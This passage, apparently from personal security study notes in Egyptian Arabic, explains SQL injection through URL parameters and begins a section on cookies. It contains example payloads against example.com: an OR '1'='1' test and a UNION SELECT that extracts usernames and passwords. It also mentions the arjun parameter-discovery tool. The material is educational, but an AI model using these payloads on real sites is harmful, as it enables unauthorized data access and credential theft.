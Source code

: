 #### **ازاي بيشتغل؟**
بتعدل الـ URL بإضافة أوامر SQL عشان تخلي الاستعلام يجيب بيانات أو يتجاوب بطريقة معينة.

#### **مثال عملي:**
- الـ URL الأصلي:  ==>قصده شكل ال Parameters في ال url
  ```
  http://example.com/product.php?id=1
  ```
- الاستعلام الداخلي: ==>قصده شكل Parameters في الداتا بيز من جوه
  ```
  SELECT * FROM products WHERE id = 1
  ```

- او لقيت شكل زي كده :
![[Pasted image 20250316160920.png]]


- **اختبار الثغرة:**  ==> دي الخطوه اللي انا بعملها لو لقيت شكل ال url زي م شوفت فوق كده
  ```
  http://example.com/product.php?id=1' OR '1'='1' --
  ```
  لو ظهرت كل المنتجات، يبقى في ثغرة.

- **سحب بيانات:**
  ```
  http://example.com/product.php?id=1' UNION SELECT 1, username, password FROM users --
  ```
  لو الصفحة بتظهر حاجة زي "admin:12345"، يبقى نجحت.

#### **خلاصة طريفة:**
تخيل إنك بتشتري حاجة من السوبر ماركت وبتقول "هاتلي المنتج رقم 1 أو كل الحاجات اللي في المخزن"، لو الكاشير جابلك كل حاجة، يبقى المخزن بتاعك!


## طب علشان تعرف ال Parameters اللي في الداتا بيز 

استخدم الاداه [[arjun]] بتجيبلك ال Parameters المخفيه

---

### **3. استغلال SQL Injection عبر الكوكيز (Cookies)**
#### **إيه هو؟**
لما الموقع بيستخدم قيم الكوكيز في استعلامات SQL، ممكن تعدلها عشان تستغل الثغرة.

#### **ازاي بيشتغل؟**
بتعدل الكوكيز باستخدام أدوات زي "Edit This Cookie" أو Burp Suite، وبتحط كود SQL.

#### **مثال عملي:**
- الكوكيز الأصلية:
  ```
  user_id=123
  ```
  الاستعلام:
  ```
  SELECT * FROM users WHERE id = 123
  ```
